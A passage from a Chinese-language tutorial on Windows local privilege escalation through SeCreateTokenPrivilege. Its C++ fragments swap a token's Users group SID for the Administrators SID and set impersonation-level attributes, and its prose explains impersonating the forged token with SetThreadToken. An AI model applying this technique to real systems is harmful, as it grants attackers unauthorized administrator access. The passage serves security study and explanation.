 ```c++
// S-1-5-32-544
SID_BUILTIN LocalAdminGroupSID = { 1, 2,{ 0, 0, 0, 0, 0, 5 },{ 32,                                                DOMAIN_ALIAS_RID_ADMINS } };
```

然后我们遍历令牌的组并将其从当前用户提升为管理员：

```c++
for (DWORD i = 0; i < pTokenGroups->GroupCount; i++)
{
	pSid = (PISID)pTokenGroups->Groups[i].Sid;
  	if (pSid->SubAuthority[pSid->SubAuthorityCount - 1] == DOMAIN_ALIAS_RID_USERS)
  	{
    	memcpy(pSid, &LocalAdminGroupSID, sizeof(LocalAdminGroupSID));
    	pTokenGroups->Groups[i].Attributes = SE_GROUP_ENABLED;
    	wprintf(L"[*] Add extra SID S-1-5-32-544 to token.\n");
  	}
}
```

最后的更改是确保我们正在构建 TokenImpersonation 模拟级别的令牌，这可以在令牌的对象属性中设置：

```c++
SECURITY_QUALITY_OF_SERVICE securityQualityOfService = { sizeof(securityQualityOfService),
                                                         SecurityImpersonation, 
                                                         SECURITY_STATIC_TRACKING, FALSE };
OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes), 0, 0, 0, 0, &securityQualityOfService };
```

目前只剩下最后一个难题，就是我们将如何使用生成的模拟令牌，因为我们假设我们只拥有 SeCreateTokenPrivilege 特权，没有其他与模拟相关的特权（例如 SeImpersonatePrivilege）。我们回顾 Windows 有关令牌模拟的相关规则：

> - IF the token level < Impersonate THEN allow (such tokens are called “Identification” level and can not be used for privileged actions).  
> - IF the process has “Impersonate” privilege THEN allow.  
> - IF the process integrity level >= the token integrity level AND the process user == token user THEN allow ELSE restrict the token to “Identification” level (no privileged actions possible).

我们关注最后一条规则 “*IF the process integrity level >= the token integrity level AND the process user == token user THEN allow ELSE restrict the token to “Identification” level (no privileged actions possible)*”，也就是说，只要令牌是给我们当前用户的，并且完整性级别小于或等于当前进程完整性级别，我们就应该能够在没有任何特殊权限的情况下模拟令牌。令牌的完整性级别可以在构造令牌时设置。我们只需将完整性级别设置为 “Medium”，然后调用 `SetThreadToken()` 函数将当前线程的令牌替换为新令牌即可。

如下图所示，本地用户 John 拥有 SeCreateTokenPrivilege 特权。
